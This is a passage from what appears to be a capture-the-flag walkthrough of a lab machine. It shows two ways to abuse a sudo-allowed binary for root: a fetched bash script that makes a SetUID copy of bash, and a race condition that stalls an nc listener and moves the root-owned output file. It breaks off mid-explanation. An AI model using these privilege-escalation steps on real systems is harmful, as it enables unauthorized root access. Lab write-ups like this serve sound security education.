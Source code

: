 
#### Bash \[Option 2\]

Ippsec pointed out to me that `perl script.sh` will respect the shebang
line of the script. So if `script.sh` starts with `#!/bin/bash`, `perl`
will pass that off to `bash` for execution. That means that I can create
`shell.sh` that will create a SetUID copy of `bash`:



    #!/bin/bash

    cp /bin/bash /tmp/0xdf
    chmod 4777 /tmp/0xdf



Running this the same way works:



    smorton@investigation:~$ sudo binary 10.10.14.6/shell.sh lDnxUysaQn
    Running... 
    smorton@investigation:~$ /tmp/0xdf -p
    0xdf-5.0# 



#### Race Condition \[Option 3\]

It's also possible to exploit a race condition to abuse this binary. It
gets the binary and writes the file, then does some calculations of
string length and builds a string, and then calls `system` to run that
string. Between the `curl` and the `system` calls, because it's saving
in the current directory, if that directory is one that my current user
owns, I can move files even if I don't own them and can't write to them.

To illustrate this, I'll listen with `nc` on 80 rather than a Python
webserver. When I run the binary, it connects, leaving it in a hung
state waiting for the server to respond. At this point, the output file
exists and is empty:



    smorton@investigation:~$ ls -l lDnxUysaQn 
    -rw-r--r-- 1 root root 0 Apr 18 20:44 lDnxUysaQn



I can't write to it, but I can move it:



    smorton@investigation:~$ echo "test" > lDnxUysaQn 
    -bash: lDnxUysaQn: Permission denied
    smorton@investigation:~$ mv lDnxUysaQn 0xdf
    smorton@investigation:~$ ls
    0xdf  user.txt



To abuse this, I'll create a script I want to get to run:


